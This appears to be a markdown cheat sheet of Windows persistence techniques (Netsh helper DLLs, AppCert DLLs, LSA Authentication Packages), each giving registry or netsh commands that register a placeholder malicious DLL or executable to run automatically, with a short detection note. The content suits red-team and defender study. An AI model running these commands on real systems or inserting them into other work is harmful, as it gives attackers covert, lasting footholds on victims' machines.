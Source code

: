 </br></br>
	
## Netsh

#### Example:
```powershell
 cmd> c:\windows\syswow64\netsh.exe

 netsh> add helper c:\path\to\badguy32.dll

 cmd> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"
```
add dll helpper module to netsh than add netsh to autorun

#### Detection:
User will see *Netsh* program in autorun (but it's hard to see **badguy32.dll**)

</br></br>

## AppCert DLLs

   #### Example:
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Session Manager" /v AppCertDLLs /t REG_SZ /d "C:\path\to\badguy.dll"

```
*badguy.dll* loads when Windows uses Api functions like: *CreateProcess, CreateProcessAsUser, CreateProcessWithLoginW, CreateProcessWithTokenW, WinExec*.



#### Detection:
User can see malicious string in reg **HKLM**

</br></br>

## Authentification Packages

#### Example:
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Authentication Packages" /v persistence /t REG_SZ /d "C:\path\to\badguy.exe"

```

*badguy.exe* executes when system loads packets **Authentication Pack** on system startup
#### Detection:
User can see malicious string in reg **HKLM**

</br></br>
